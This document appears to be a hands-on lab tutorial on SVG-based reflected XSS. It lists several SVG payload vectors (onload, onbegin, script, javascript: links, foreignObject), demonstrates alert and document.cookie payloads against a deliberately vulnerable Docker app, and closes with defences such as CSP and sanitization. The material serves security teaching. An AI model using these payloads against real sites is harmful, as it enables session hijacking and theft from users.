




# SVG-Based XSS Vulnerabilities

Scalable Vector Graphics (SVG) is an XML-based markup language for describing two-dimensional vector graphics. Unlike raster formats such as JPEG or PNG, SVG images can be scaled infinitely without losing quality, making them ideal for responsive web design.

Web applications that allow users to upload, generate, or input SVG content often do so to provide rich graphics capabilities. Common use cases include:

- Data visualization tools
- Diagram and flowchart editors
- Custom icon libraries


However, SVG content can also be exploited for XSS attacks, particularly when it is rendered in the browser. In this lab, we will explore how SVG content can be used to perform `Reflected XSS` attacks.

## What is Reflected XSS?

Reflected XSS is a type of XSS attack where the malicious script is reflected off the web application back to the victim's browser. This type of XSS is common in web applications that handle user input, such as name fields, search fields, comment sections, and login forms.


An attacker crafts a malicious URL containing a script and tricks a user into clicking it. The vulnerable website reflects the script in its response without proper sanitization, causing the user's browser to execute it, leading to data theft or session hijacking.

## Security Concerns with SVG Input

While SVG provides powerful graphics capabilities, it also introduces significant security risks when user-provided SVG content is rendered without proper sanitization. SVG is fundamentally based on XML and can include:

1. **Executable JavaScript code** via various event handlers
2. **External resource loading** through links and references
3. **CSS manipulation** that can affect the entire page
4. **Complex interactions** with the DOM and browser environment

## SVG-Based XSS Attack Vectors

### 1. Event Handler Execution

SVG elements support numerous event handlers that can execute JavaScript:

```svg
<svg onload="alert('XSS')"></svg>
```

This simple example will execute the JavaScript code when the SVG element loads.

### 2. Script Elements within SVG

SVG allows embedding `<script>` elements directly:

```svg
<svg>
  <script type="text/javascript">
    alert('XSS via SVG script element');
  </script>
</svg>
```

### 3. Animation-Based Execution

SVG animation elements can trigger JavaScript:

```svg
<svg>
  <animate onbegin="alert('XSS')" attributeName="x" dur="1s" />
  <set onbegin="alert('XSS')" attributeName="y" to="10" />
</svg>
```

### 4. SVG Links and References

Links within SVG can use JavaScript URIs:

```svg
<svg>
  <a xlink:href="javascript:alert('XSS')">
    <text x="20" y="20">Click me for XSS</text>
  </a>
</svg>
```

### 5. Embedded HTML via foreignObject

SVG's `<foreignObject>` element can include HTML content:

```svg
<svg>
  <foreignObject>
    <body xmlns="http://www.w3.org/1999/xhtml">
      <script>alert('XSS via foreignObject')</script>
    </body>
  </foreignObject>
</svg>
```

### 6. CSS-Based Attacks

SVG can include style elements with CSS that may leak information:

```svg
<svg>
  <style>
    @import url("data:,*{background-image:url(javascript:alert('XSS'))}");
  </style>
</svg>
```

## Real-World Impact of SVG XSS

SVG-based XSS can lead to various security breaches:

1. **Session hijacking**: Attackers can steal user cookies and authenticate as the victim
2. **Credential theft**: Through phishing forms injected via XSS
3. **Sensitive data exfiltration**: Reading and transmitting page content
4. **Website defacement**: Modifying the visual appearance of the application
5. **Malware distribution**: Redirecting users to malicious downloads

## Hands-On Lab with SVG-Based XSS

Now we will see a real world application which is vulnerable to SVG-Based XSS attacks.

To demostrate that on `Poridhi's` Platform, we will deploy a application in `Docker` and then expose it with `Poridhi's` Load Balancer.

### **Step 1: Pull the Docker Image**

```bash
docker pull fazlulkarim105925/reflectedxsswithsvgtag:latest
```

### **Step 2: Deploy the Application**

```bash
docker run -p 8000:8000 fazlulkarim105925/reflectedxsswithsvgtag:latest
```

### **Step 3: Expose the Application**

To expose the application with `Poridhi's` Load Balancer, we need to find the `eth0` IP address of the container. To get the `eth0` IP address, we can use the following command:

```bash
ifconfig
```


Create a Load Balancer with the `eth0 IP` address and the port `8000`


### **Step 4: Access the Web Application**

Access the web application with the the provided `URL` by `loadbalancer`



This is simple application to render `svg` content. What we need to do is to paster `svg` code in the input area and click on `View` button.

An example of `svg` code is given below:

```svg
<svg width="200" height="100"> <rect width="200" height="100" fill="blue" stroke="black" stroke-width="2" /> </svg>
```
In the output section you will see a blue rectangle rendered.



### **Step 5: Exploit the Vulnerability**

As we know that `svg` can be vulnerable to `XSS` attacks, we will try to exploit the vulnerability by entering the following `svg` code:

```svg
<svg><set attributeName=x onbegin=alert(1)>
```
This will execute the `alert(1)` function when the `svg` is loaded. We are using `set` element to trigger the `alert(1)` function with attribute `onbegin`. `onbegin` is an event handler that is triggered when the `svg` is loaded.



You will see a popup with `1` as the output. Which means that this application is vulnerable to `XSS` attacks.

You can try other payloads like,

```svg
<svg><set attributeName=x onbegin=alert(document.cookie)>
```
This will execute the `alert(document.cookie)` function when the `svg` is loaded. We are using `set` element to trigger the `alert(document.cookie)` function with attribute `onbegin`. `onbegin` is an event handler that is triggered when the `svg` is loaded.



You will see a popup with the `cookie` of the application.

## Secure Handling of SVG Input

To prevent SVG-based XSS attacks, applications should implement:

### 1. Content Security Policy (CSP)

```
Content-Security-Policy: default-src 'self'; script-src 'self'; object-src 'none'
```

### 2. SVG Sanitization Libraries

Use dedicated libraries designed to remove potentially malicious content from SVG:
- DOMPurify with SVG support enabled
- SVG-sanitize
- Ammonia (Rust-based)

### 3. Server-Side Validation

- Validate SVG structure and reject unexpected elements
- Use XML parsers that don't execute scripts
- Convert SVG to raster formats when possible (losing vector benefits)

### 4. SVG Feature Restriction

Restrict SVG to known-safe elements and attributes:
```javascript
const ALLOWED_SVG_ELEMENTS = ['svg', 'circle', 'rect', 'path', 'line', 'polyline', 'polygon', 'text', 'g'];
const ALLOWED_SVG_ATTRIBUTES = ['width', 'height', 'fill', 'stroke', 'stroke-width', 'x', 'y', 'cx', 'cy', 'r', 'd', 'points', 'transform'];
```

## Conclusion

In this lab, we have seen how `svg` can be vulnerable to `XSS` attacks. We have also seen how to exploit the vulnerability and how to prevent it.


